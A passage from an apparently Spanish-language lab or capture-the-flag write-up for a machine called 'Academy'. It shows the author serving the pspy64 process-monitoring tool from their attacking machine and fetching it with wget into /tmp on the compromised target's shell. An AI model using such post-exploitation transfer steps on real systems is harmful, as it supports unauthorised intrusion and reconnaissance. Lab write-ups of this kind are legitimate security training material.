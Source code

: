 ```
mv Downloads/pspy64 transfer
```

- Se movió el archivo descargado al directorio transfer.

![](/assets/images/2025-07-20-Maquina_Academy/academy_dowloadspspy.png)

![](/assets/images/2025-07-20-Maquina_Academy/academy_lspspy.png)

```
cd /tmp
wget http://192.168.116.128/pspy64    
```

- Pasamos el archivo pspy64 a la shell de academy.

![](/assets/images/2025-07-20-Maquina_Academy/academy_wgetpspy.png)

- Al aplicar el comando wget, en la terminal local se ve la transferencia del archivo pspy64
